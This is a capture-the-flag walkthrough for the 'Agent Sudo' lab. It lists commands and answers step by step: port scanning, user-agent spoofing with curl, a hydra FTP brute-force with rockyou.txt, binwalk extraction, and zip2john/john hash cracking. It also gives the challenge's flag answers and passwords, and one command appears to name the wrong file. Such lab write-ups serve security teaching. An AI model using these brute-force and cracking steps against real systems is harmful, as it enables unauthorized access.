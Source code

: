 # Agent Sudo


- Deploy the machine

	  no answer needed

- How many open ports?

	- `nmap <TARGET_IP>`
	- `3`

- How you redirect yourself to a secret page?

	- `user-agent`

- What is the agent name?

	- Let's try changing the user-agent.
	- `curl -A "A" -L <TARGET_IP>`. Mmmmh...
	- `curl -A "C" -L <TARGET_IP>`. Got it.
	- `chris`

- FTP password

	- `hydra -l chris -P /usr/share/wordlists/rockyou.txt <TARGET_IP> -vV -t 4 ftp`
	- `crystal`

- steg password

	- `ftp <TARGET_IP>`
	- Enter username `chris` and password `crystal`.
	- `mget *`
	- By `ToAgentJ.txt` I can understand there is a pic that isn't a photo actually.
	- In fact, `binwalk -e cutie.png` extracts useful data.
	- `cd _cutie.png.extracted`
	- `zip2john 8702.zip > zip.hash`
	- `john zip.hash` and we get the password
	- `7z e zip.hash`, enter `Y` and the password.
	- `cat ToAgentR.txt`
	- Inserting that weird string into CyberChef (from Base64) we get `Area51`.
	- `Area51`

- Zip file password

	- `alien`